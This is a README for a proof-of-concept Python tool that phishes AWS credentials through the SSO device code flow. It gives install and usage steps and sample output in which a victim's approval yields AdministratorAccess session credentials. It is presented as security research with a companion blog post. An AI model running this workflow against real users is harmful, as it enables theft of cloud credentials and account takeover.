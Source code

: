 # AWS SSO Device code phishing

This repository contains Python code to generate an AWS SSO device code URL. Once a user used it to authenticate, it display the list of AWS accounts and roles they have access to, and allow retrieving STS credentials inside them.

Companion blog post: https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/

*Note: This repository is pretty much useless since you can use the AWS CLI to achieve the same purpose. But it provides an interactive PoC to try it. :-)*

## Installation

```
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

## Usage

```
$ python main.py --help
usage: main.py [-h] -u START_URL -r REGION [-i SSO_TOKEN_FILE] [-o OUTPUT_FILE]

optional arguments:
  -h, --help            show this help message and exit
  -u START_URL, --sso-start-url START_URL
                        AWS SSO start URL. Example: https://mycompany.awssapps.com/start (default: None)
  -r REGION, --sso-region REGION
                        AWS region in which AWS SSO is configured (e.g. us-east-1) (default: None)
  -i SSO_TOKEN_FILE, --sso-token-file SSO_TOKEN_FILE
                        File to read the AWS SSO token from. If provided, no device code URL is generated (default: None)
  -o OUTPUT_FILE        File to write the retrieved AWS SSO token (default: None)
```

Example:

```
$ python3 main.py -u https://company.awsapps.com/start/ -r eu-west-1  -o /tmp/token
Creating temporary AWS SSO OIDC application
Initiating device code flow
Device code URL: https://device.sso.eu-west-1.amazonaws.com/?user_code=HKRD-BQQP
Waiting indefinitely for user to validate the AWS SSO prompt..
Successfully retrieved AWS SSO token!
> Dev account (11xxxxxxxxx)
  Prod account (545xxxxxxxxx)
  
  
 > AdministratorAccess
  ViewOnlyAccess
  (back to accounts list)

Here are your temporary STS credentials for the 'AdministratorAccess' role in the AWS account 'Dev account' (11xxxxx)

export AWS_ACCESS_KEY_ID=ASIAR..
export AWS_SECRET_ACCESS_KEY=Lj0..
export AWS_SESSION_TOKEN=IQo..
```

Example with an existing AWS SSO token:

```
$ python3 main.py -u https://company.awsapps.com/start/ -r eu-west-1 -i /tmp/token
```

## Troubleshooting

### "invalid_grant - Invalid grant provided"

Ensure you set the correct AWS SSO region. Given the AWS SSO start URL, you can see it using:

```
$ curl https://company.awsapps.com/start/ -s | grep 'region' 
    <meta name="region" content="eu-west-1"/>
```